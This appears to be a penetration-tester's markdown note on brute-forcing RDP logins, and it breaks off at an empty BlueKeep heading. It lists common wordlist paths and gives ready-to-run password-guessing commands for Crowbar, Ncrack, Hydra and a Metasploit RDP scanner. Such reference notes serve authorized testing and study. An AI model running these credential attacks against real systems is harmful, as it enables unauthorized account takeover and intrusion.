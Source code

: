 ### Brute Forcing

Brute forcing RDP credentials requires specialized tools
due to the protocol's complexity

> [!tip]- Wordlists
>
> Passwords
>
> ```
> /usr/share/wordlists/rockyou.txt
> ```
>
> Usernames
>
> ```
> /usr/share/wordlists/seclists/Usernames/Names/names.txt
> ```


Using [[Crowbar]]

```sh
crowbar -b rdp -s <target>/32 -u <username> -C <passwords.txt>
```

Using [[Ncrack]]

```sh
ncrack -vv --user <username> -P <passwords.txt> rdp://<target>
```

Using [[Hydra]]

```sh
hydra -t 1 -V -f -l <username> -P <passwords.txt> rdp://<target>
```

Using [[Metasploit]]

```sh
use auxiliary/scanner/rdp/rdp_scanner
```

> [!example]-
>
> ```sh
> use auxiliary/scanner/rdp/rdp_scanner
> set RHOSTS <target>
> run
> ```




___




## BlueKeep
